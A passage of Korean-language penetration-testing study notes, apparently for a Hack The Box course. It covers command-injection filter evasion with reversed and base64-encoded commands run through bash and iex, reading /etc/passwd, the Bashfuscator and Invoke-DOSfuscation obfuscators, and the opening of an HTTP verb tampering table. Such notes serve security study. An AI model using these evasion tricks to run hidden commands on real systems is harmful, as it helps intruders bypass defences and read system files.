 $ $(rev<<<'imaohw')
```
```
PS C:\htb> "whoami"[-1..-20] -join ''
imaohw

PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

### Encoded Commands
```
$ echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
```
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```
```
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
```PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"```

- 참고 : [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)

## Evasion Tools

### Linux (Bashfuscator)
- [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)
```
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
./bashfuscator -c 'cat /etc/passwd'
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1     # 짧고 간단하게
```

### Windows (DOSfuscation)
- [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)
```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```

<br/><br/>
# Web Application Attacks

## HTTP Verb Tampering
| Verb      | 설명                                            |
| --------- | --------------------------------------------- |
| `HEAD`    | GET 요청과 동일하지만 응답에는 응답 본문 없이 `headers`만 포함됩니다. |
| `PUT`     | 지정된 위치에 요청 페이로드를 씁니다.                         |
| `DELETE`  | 지정된 위치의 리소스를 삭제합니다.                           |
| `OPTIONS` | 웹 서버에서 허용하는 다양한 옵션(허용되는 HTTP 동사 등)을 보여줍니다.    |
| `PATCH`   | 지정된 위치의 리소스에 부분 수정을 적용합니다.                    |
| `TRACE`   | 리소스 경로를 따라 메시지 Loop-Back 테스트를 합니다.(TRACK 도 동일)      |
```